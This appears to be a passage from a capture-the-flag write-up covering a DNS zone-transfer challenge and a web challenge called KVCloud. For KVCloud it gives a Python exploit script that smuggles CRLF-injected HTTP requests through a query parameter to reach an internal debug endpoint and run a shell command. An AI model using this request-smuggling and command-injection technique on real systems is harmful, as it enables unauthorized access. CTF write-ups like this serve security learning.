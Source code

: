 
**Writeup**

Step 1: Do a subdomain scan and you would discover `docs.shoustinycompany.cf`

Step 2: You find a few files at that subdomain indicating we need to perform an AXFR attack at 161.35.126.226. 

`logs.txt`

```
[12/19] Eddie started the process following RFC 5936.
[12/18] Shou approved NS records transfering.
[12/17] Eddie proposed to transfer NS records to our looking glass server (161.35.126.226:53). 
[12/16] Shou appointed Eddie to be network admin.
```

`info.txt`

```
### Company's websites
Looking Glass: lookingglassv1.shoustinycompany.cf
Flag: [Removed by Shou]
```

Step 3: You find another subdomain `lookingglassv1.shoustinycompany.cf` with IP 161.35.126.226.

Step 4: Perform AXFR transaction at `lookingglassv1.shoustinycompany.cf` by 

```bash
dig AXFR shoustinycompany.cf @ns1.shoustinycompany.cf
```


## KVCloud 
13 solves

**Description**

Shou hates to use Redis by TCPing it. He instead built a HTTP wrapper for saving his key-value pairs.

Flag is at /flag.txt.

Hint: How to keep-alive a connection?

Note 1: Remote is not using 127.0.0.1 as Redis host.

Note 2: Try different host if your payload is not working remotely.

Handout: https://github.com/wectf/2020p/blob/master/kvcloud/handout.zip

**Writeup**

SSRF with Connection: keep-alive:
```python3
from requests import *
import urllib
port = 5000
cmd = b"import os; os.system('whoami')"
content_len = str(4 + len(cmd)).encode('ascii')
payload = urllib.parse.quote(b"/x\r\nConnection: keep-alive\r\n" +
	b"Pragma: no-cache\r\n\r\nPOST /debug HTTP/1.1\r\n" + 
	b"Host: 127.0.0.1:5000\r\nUser-Agent: curl/7.68.0\r\n"+ 
	b"Accept: */*\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: %s\r\n\r\ncmd=%s" % (
		content_len, cmd), safe='')
c = get("http://[HOST]:%s/get?redis_port=%s&key=%s" % (port, port, payload)).content
print(c)
print("http://[HOST]:%s/get?redis_port=%s&key=%s" % (port, port, payload))
```
